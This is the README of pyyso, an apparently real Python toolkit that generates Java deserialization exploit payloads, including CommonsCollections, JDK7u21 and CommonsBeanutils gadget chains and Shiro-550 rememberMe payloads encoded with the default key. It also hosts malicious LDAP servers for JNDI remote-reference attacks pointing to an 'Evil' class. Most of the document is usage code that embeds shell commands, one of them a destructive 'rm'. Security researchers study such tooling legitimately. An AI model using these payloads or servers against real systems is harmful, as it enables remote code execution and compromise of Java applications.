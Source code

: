 # pyyso: powerful java serialized toolkit

## What is it?
**pyyso** is a Python package that provides fast and flexible ways to generate java serialized poc.
It aims to be the fundamental high-level building block for doing vulnerability **check and research** in Python.
Additionally, it has a goal of becoming the most convenient and reliable toolkit implemented in Python for Java researchers

## Main Features
Here are just a few of the things that pyyso does well:

- Easy generating of java serialized poc
- Powerful, flexible functionality to start a ldap/rmi server to host java serialized pocs
- Communicating and collaborating with other Python packages 

pyyso has implemented
- URLDNS Gadget
- CommonsCollections1-7 Gadgets
- JDK7u21 Gadget
- JDK8u21 Gadget
- CommonsBeanutils1 1.8.3 no cc
- CommonsBeanutils1 1.9.2
- shiro-550 rememberMe deserialized
- java class embed with command
- ldap server hosting java serialized pocs
- ldap server hosting java remote reference factory

## Where to get it
The source code is currently host on GitHub at:
https://github.com/cokeBeer/pyyso

## Installation from sources
```
pip install pyyso
```

## How to use
First import pyyso
```
import pyyso
```
to generate a java serialized zed poc use:
```
pyyso.urldns("https://x.dnslog.com") #return java serialzed data of URLDNS in bytes
pyyso.cc1("touch /tmp/1") #return java serialzed data of CommonsColletions1 in bytes
pyyso.cc2("touch /tmp/1") #return java serialzed data of CommonsColletions2 in bytes
pyyso.jdk7u21("touch /tmp/1") #return java serialzed data of JDK7u21 in bytes
pyyso.jdk8u20("touch /tmp/1") #return java serialzed data of JDK8u20 in bytes
pyyso.cb1v183("touch /tmp/1") #return java serialzed data of CommonsBeanutils1 1.8.3 no cc in bytes
```
to encode a shiro poc use:
```
serobj=pyyso.cb1v183("touch /tmp/1")
pyyso.shiroEncode(serobj=serobj,key=b'kPH+bIxk5D2deZiIxcaaaA==')
```
to generate a java class embed with command use:
```
pyyso.evil("touch /tmp/1") #return java class embed with command in bytes
```
to start a ldap server hosting java serialized pocs:
```
serobj=pyyso.cc1("touch /tmp/1")
server=pyyso.LdapSerialized(serobj=serobj, ip="0.0.0.0", port=1389)
server.run()
```
this will start a ldap server listening 0.0.0.0:1389  
you can change the hosted java serialized data by:
```
server.serobj=pyyso.cc1("rm /tmp/2")
```
to start a ldap server hosting java remote reference factory:
```
server=pyyso.LdapRemoteRef(javaCodeBase="http://127.0.0.1:8088/", javaFactory="Evil", javaClassName="java.lang.String", ip="0.0.0.0", port=1389):
server.run()
```
this will start a ldap server listening 0.0.0.0:1389  
and will return a remote reference pointer to `http://127.0.0.1:8088/Evil.class`

## License
[MIT](LICENSE)

## Inspired by
https://github.com/frohoff/ysoserial  
https://github.com/mbechler/marshalsec
